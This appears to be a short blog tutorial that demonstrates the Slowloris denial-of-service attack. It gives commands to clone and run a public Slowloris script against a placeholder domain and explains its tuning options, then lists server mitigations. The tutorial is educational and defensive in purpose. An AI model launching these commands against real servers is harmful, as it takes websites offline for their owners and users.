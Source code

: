 +++
categories = ["white-hat", "hacker", "slowloris"]
date = 2024-07-07T06:16:34Z
description = ""
draft = false
image = "https://images.unsplash.com/photo-1588087699156-a91fb26b1b1a?crop=entropy&cs=tinysrgb&fit=max&fm=jpg&ixid=M3wxMTc3M3wwfDF8c2VhcmNofDR8fFNsb3d8ZW58MHx8fHwxNzIwMzMyOTQ2fDA&ixlib=rb-4.0.3&q=80&w=2000"
slug = "slow-loris-attack"
tags = ["white-hat", "hacker", "slowloris"]
title = "Slowloris Attack #whitehat"

+++


Denial-of-Service (DoS) attacks are a critical threat to web server security. One particularly insidious type is the Slowloris attack, which can incapacitate a server with minimal resources.

Remember, this guide is for educational purposes only, and any unauthorized testing on live servers is illegal and unethical.

#### What is a Slow Loris Attack?

A Slow Loris attack involves sending numerous incomplete HTTP requests to a target server.

By maintaining these connections open with periodic headers but never completing them, the server's resources are tied up, preventing legitimate users from accessing the server.

### Prerequisites

Before we begin, ensure you have.

* A machine running Linux
* Basic knowledge of terminal commands
* Python and Git installed

### Step-by-Step Guide

Let's start ensuring we have Python and Git installed in our Linux system.

```bash
sudo apt update
sudo apt install python3 python3-pip git

```

Clone the Slowloris repository from GitHub. This tool is a simple script written in Python that we'll use for our attack demonstration.

```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris

```

Install the necessary python packages.

```bash
pip3 install -r requirements.txt

```

### Running Slowloris

Now, we're ready to execute the Slow Loris attack. Replace `example.com` with the domain of your test server.

```bash
python3 slowloris.py example.com

```

#### Optional: Adjusting Parameters

Slowloris offers several parameters to customize the attack. You can see all available options by running:

```bash
python3 slowloris.py -h

```

Here are some useful parameters:

* `-p PORT`, `--port PORT`: Specify the target web server's port (default is 80).
* `-s SLEEPTIME`, `--sleeptime SLEEPTIME`: Time to sleep between sending each header (default is 15 seconds).
* `-v`, `--verbose`: Enable verbose output.

Example usage:

```bash
python3 slowloris.py example.com -p 8080 -s 10 -v

```

### Mitigating Slow Loris Attacks

To protect your server from Slow Loris attacks, consider the following measures:

* **Implement Timeouts**: Configure your server to set timeouts for incomplete requests.
* **Rate Limiting**: Limit the number of connections a single IP can make.
* **Reverse Proxies**: Use a reverse proxy like Nginx or Apache to handle incoming connections and mitigate the effects of such attacks.

### Conclusion

Understanding and testing the resilience of your server against Slow Loris attacks is crucial for maintaining robust web security.

By following this hands-on guide, you've seen how to conduct a Slow Loris attack in a controlled environment.

Always remember to use such techniques ethically and with proper authorization.

For more technical insights and tutorials, visit [rmauro.dev](__GHOST_URL__/).

### Additional Credits

```json
{
  gkbrkslowloris,
  title = "Slowloris",
  author = "Gokberk Yaltirakli",
  journal = "github.com",
  year = "2015",
  url = "https://github.com/gkbrk/slowloris"
}
```



